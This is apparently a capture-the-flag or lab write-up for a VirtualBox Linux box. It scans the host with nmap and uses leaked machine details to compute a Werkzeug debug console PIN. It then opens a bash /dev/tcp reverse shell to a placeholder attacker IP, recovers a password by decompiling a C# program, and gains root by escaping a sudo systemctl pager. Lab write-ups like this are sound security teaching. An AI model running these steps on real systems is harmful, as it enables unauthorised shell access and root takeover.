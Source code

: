 # Writeup for generating flask pin(python)

## Running initial nmap scan
```bash
sudo nmap -sC -sT -sV -A <IP> -oN nmap
```

The output is as follows:
```
# Nmap 7.94 scan initiated Wed Oct  4 20:17:06 2023 as: nmap -sC -sT -sV -A -oN nmap/initial 192.168.183.122
Nmap scan report for 192.168.183.122
Host is up (0.00047s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 64:8d:51:2b:2b:25:ed:2e:3f:60:9b:39:98:53:6c:56 (RSA)
|   256 e8:52:1a:c1:a9:49:01:f9:14:a3:0d:2c:6c:75:6e:ee (ECDSA)
|_  256 bc:e6:cb:e8:ff:4a:67:09:85:77:6f:d6:5a:62:42:c5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site Under Construction
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.0 Python/3.8.10
|     Date: Wed, 04 Oct 2023 14:47:13 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 220
|     Connection: close
|     This is a development server
|     mac_address: 197444420749453
|     machine id: 1a77c4feaeab4506843f3082decdb7cc
|     running in: /usr/local/lib/python3.8/dist-packages/flask/app.py
|     username: python
|     date: unavailable
|     server id: srv01
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.0 Python/3.8.10
|     Date: Wed, 04 Oct 2023 14:47:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|     Connection: close
|   Help:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94%I=7%D=10/4%Time=651D7AF1%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,18A,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.0\x20
SF:Python/3\.8\.10\r\nDate:\x20Wed,\x2004\x20Oct\x202023\x2014:47:13\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:0220\r\nConnection:\x20close\r\n\r\nThis\x20is\x20a\x20development\x20s
SF:erver\nmac_address:\x20197444420749453\nmachine\x20id:\x201a77c4feaeab4
SF:506843f3082decdb7cc\n\nrunning\x20in:\x20/usr/local/lib/python3\.8/dist
SF:-packages/flask/app\.py\nusername:\x20python\n\x20date:\x20unavailable\
SF:nserver\x20id:\x20srv01")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLI
SF:C\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20
SF:\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Conte
SF:nt-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n
SF:\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20re
SF:sponse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</
SF:p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20ve
SF:rsion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Erro
SF:r\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20req
SF:uest\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</
SF:body>\n</html>\n")%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\nServer:\
SF:x20Werkzeug/3\.0\.0\x20Python/3\.8\.10\r\nDate:\x20Wed,\x2004\x20Oct\x2
SF:02023\x2014:47:28\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-
SF:8\r\nAllow:\x20GET,\x20HEAD,\x20OPTIONS\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\n\r\n")%r(Help,1EF,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\
SF:"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"
SF:http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<h
SF:ead>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Typ
SF:e\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x
SF:20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response
SF:</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20syntax\x
SF:20\('HELP'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x2
SF:0explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20synt
SF:ax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</htm
SF:l>\n");
MAC Address: 08:00:27:F7:15:3F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms 192.168.183.122

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  4 20:18:41 2023 -- 1 IP address (1 host up) scanned in 95.61 seconds
```


Port 80 just tells that it is still in progress
Port 5000 is running python flask server, which gives some information
```
This is a development server
mac_address: 197444420749453
machine id: 1a77c4feaeab4506843f3082decdb7cc
running in: /usr/local/lib/python3.8/dist-packages/flask/app.py
username: python
date: unavailable
server id: srv01
```

Here, debug mode is enabled (/console) so we can generate our own pin, to access /console
We take a copy of python script available in hacktricks
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
```

By simply changing some values ie,
    username: python
    location of module: /usr/local/lib/python3.8/dist-packages/flask/app.py
    mac address: 197444420749453
    machine_id: 1a77c4feaeab4506843f3082decdb7cc

We will get the pin: 224-208-411

accessing /console with pin, we can get reverse shell
```python
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/<attacker's ip>/port 0>&1'")
```
and standing up a netcat listener
```bash
nc -lnvp <port>
```

We get a shell as user python

in the /home directory, we see another user manager, he has a notes left for us
```
Hey SysAdmin, I always forget the password you gave to me, so instead of saving it to a file, I have created a c# program to give me the password, Take a look at it
```

looking into the password directory, we see it is a dotnet console project.
decompiling the code with IllSpy, we get the user password: YWprZGh3YmVqZ2hkYndqaGViZGNlZmhjbmVyCg

sshing into the machine as manager with password YWprZGh3YmVqZ2hkYndqaGViZGNlZmhjbmVyCg, we are logged in.

running,
```bash
sudo -l
```
we will see this output
```
Matching Defaults entries for manager on server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User manager may run the following commands on server:
    (ALL : ALL) /usr/bin/systemctl status custom_app.service
    ```

so we execute that command,
```bash
sudo /usr/bin/systemctl status custom_app.service
```

and typing,
```
!bash
```
we are root.
